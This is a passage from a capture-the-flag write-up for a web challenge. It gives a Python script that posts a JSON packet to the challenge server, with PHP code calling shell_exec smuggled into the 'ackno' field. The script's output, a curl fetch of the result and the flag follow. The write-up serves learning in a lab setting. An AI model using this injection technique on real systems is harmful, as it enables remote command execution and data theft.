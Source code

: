 At this point we can script the attack. Notice that packet len, ihl and checksum are calculated offline by adding some echo's in send.php in order to get the right values.
```python
import json

import requests

headers = {
    'Connection': 'keep-alive',
    'Accept': '*/*',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.92 Safari/537.36',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'Accept-Language': 'it-IT,it;q=0.9,fr-IT;q=0.8,fr;q=0.7,en-IT;q=0.6,en;q=0.5,en-US;q=0.4',
}

packet = {
    'version' : 6.5,
    'len' : 258,
    'ttl' : 1,
    'seqno' : 1,
    'ackno' : '1));$packet->data = shell_exec("cat ./sent/flag.packet.php");echo((1',
    'algo' : 'sha256',
    'ihl' : 149,
    'checksum' : '612111a352a571cbed3927ec6f74948849bcc9fe8489bf4f0d6235afdc0a4ad7',
    'data' : 'wow'
}

data = {
  'packet': json.dumps(packet),
}

response = requests.post('http://chal.ctf.b01lers.com:3002/packets/send.php', headers=headers, data=data, cookies={'seqno' : '0as'}, verify=False)
response = response.text
print(response)
```
which will respond with
```html
<div class="content-page">1<h1>Packet data written</h1><div><a href="sent/f2f9fd07007a9dc8c30e8b03b432e864.packet">f2f9fd07007a9dc8c30e8b03b432e864.packet</a></div></div>
```
Looking inside 
```bash
curl http://chal.ctf.b01lers.com:3002/packets/sent/45c0480caf1af0f055f0b5c3f3877f2d.packet
```
gives us the flag.

🏁 __flag{a_digital_frontier_to_reshape_the_human_condition}__{:.spoiler}

---

# Crypto
